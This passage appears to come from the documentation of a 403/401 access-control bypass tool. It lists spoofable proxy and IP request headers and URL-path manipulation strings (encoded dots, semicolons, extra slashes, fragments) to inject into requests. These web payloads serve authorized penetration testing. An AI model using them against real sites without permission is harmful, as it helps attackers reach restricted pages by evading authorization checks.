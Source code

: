 ```fundamental
X-Proxy-URL
X-ProxyUser-IP
X-Real-IP
X-Referer
X-Remote-Addr
X-Remote-IP
X-Rewrite-URL
X-Server-IP
X-Wap-Profile
```

# URL Paths

Inject at the beginning, end, and both beginning and end of URL path. All combinations.

```fundamental
/
//
%09
%20
%23
%2e
*
.
..
;
.;
..;
;foo=bar;
```

Inject at the end of URL path.

```fundamental
#
##
##random
*
**
**random
.
..
..random
?
??
??random
~
~~
~~random
```

Inject at the end of URL path, but only if URL path does not end with '/'.
